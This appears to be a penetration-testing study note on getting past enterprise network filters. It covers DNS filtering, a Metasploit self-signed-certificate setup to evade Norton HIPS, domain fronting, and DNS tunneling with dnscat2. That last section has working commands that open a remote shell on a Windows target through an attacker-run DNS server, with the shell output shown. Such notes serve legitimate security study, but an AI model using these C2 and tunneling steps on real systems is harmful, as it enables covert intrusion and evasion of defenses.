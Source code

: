 ## Network Filter Theory
There are various defense solutions in an enterprise environment to filter traffic.(Consider a comprehensive Internet edge architecture installation.)
- 1.Egress traffic relies on name resolution and edge DNS server may perform domain filtering, which deny known malicious domains
  - Most DNS filters compare requested domains to a blocklist of well-known malicious domain names. If the domain name is on the blocklist, it is filtered. 
  [OpenDNS,](https://community.opendns.com/domaintagging/) perform this action. 
  - DNS servers can integrate domain reputation lookup solution like [IPVoid](https://www.ipvoid.com/dns-reputation/), [VirtusTotal](https://www.virustotal.com/gui/home/search), and
  query multiple DNS filtering providers and make a decision about requtability of the domain.
- 2.Interal firewall generally limit traffic based on IP address and port number. For example, if organizaitons doesn't allow egress SMB traffic, the C2 will be filterd out.
- 3.SSL inspection device, often perform SSL decryption to inspect SSL-encrypted traffic and encryptd the traffic when it leave this zone.
- 4.IF traffic is still allowed, it may pass through a traffic filter, such as proxy server or an IDS, where data maybe be copied to a full packet capture device.
- 5.Route to internet

## Case Study Bypassing Norton HIPS with Custom Certificates
generate a self-signed certificate, In order to use this certificate and key with Metasploit, we must create a .pem file by simply
concatenating the key and certificate with cat.
```
kali@kali:~$ openssl req -new -x509 -nodes -out cert.crt -keyout priv.key

kali@kali:~$ cat priv.key cert.crt > nasa.pem 
```
Change the CipherString in /etc/ssl/openssl.cnf
```
CipherString=DEFAULT
```
Configure Metasploit to use newly-created certificate
```
msf5 exploit(multi/handler) > set HandlerSSLCert /home/kali/self_cert/nasa.pem
```

## Domain Fronting
Domain fronting involves using different domain names in the SNI field of the TLS header and the Host field of the HTTP header. If both 
domains are served from the same CDN, then the CDN may route to the address specified in the HTTP header after unwrapping the TLS header. More to follow.

## DNS Tunneling
In order to establish communication between two hosts using DNS traffic, we need to control
both ends of the communication: the client that makes the requests, and the DNS server. We nned to register our DNS server(attack machine/redirector) as the
authoritative server for a given target domain.

From the client, we can encapsulate data into the name field, which contains the domain name.
However, since the top-level domain is fixed, we can only encapsulate data as subdomains. These
can be up to 63 characters long but the total length of a domain can’t exceed 253 characters.

From the server side, we have much more flexibility and can return data in a variety of fields
based on the record type that was requested. An “A” record can only contain IPv4 addresses,
which means we can only store four bytes of information, but “TXT” records allow up to 64k.

one challenge in C2 communications is that if we want to send any data from the server
to the client, we can’t initiate the transfer from the server. Therefore, the malicious client
applications are designed to continuously poll the server for updated data.

For example, Clinet will poll the server. 6172657468657265 could be encapsulate command for "is there more command to run?"
```
Query: Request TXT record for "6172657468657265.ourdomain.com"
```

Now, on the DNS server side, sending command back to client, "686f73746e616d65" could be a whomai command.

```
TXT: "686f73746e616d65"
```

## DNS Tunneling with dnscat2
[dnscat2](https://github.com/iagox86/dnscat2) is a DNS tunneling utility. It can tunnel A, TXT, and NS records. Let's consider the follwing network digram.


![image](https://user-images.githubusercontent.com/24555370/145134133-776aaf38-f8ea-49c7-9e4a-9020a5859446.png)

We will configure dnsmasq DNS server to forward requests to our kali. The domain name will bne tunnel.com.

configure /etc/dnsmasq.conf file on the Ubuntu machine, Note, the IP address are point to Kali machine
```
server=/tunnel.com/kaliIP
server=/somedomain.com/KaliIP
```
restart dns
```
dns@ubuntu:~$ sudo systemctl restart dnsmasq
```

On our kali machine, we have to start dnscat2-server for our example tunnel.com domain

```
kali@kali:~$ sudo apt install dnscat2

kali@kali:~$ dnscat2-server tunnel.com
```

Now on the windows target machine

```
C:\Users\mst\Desktop> dnscat2-v0.07-client-win32.exe tunnel.com
```

Now, we have established a DNS tunnel, on the kali side, interact with the seesion using the  ```session -i [number]```, we can run an interactive shell with the ```shell``` command
```
dnscat2> session -i 1
New window created: 1
history_size (session) => 1000

command (client) 1> shell
Sent request to execute a shell
command (client) 1> New window created: 2
Shell session created!
command (client) 1> session -i 2


C:\Users\mst\Desktop>
cmd.exe (client) 2> whoami
client\mst
```

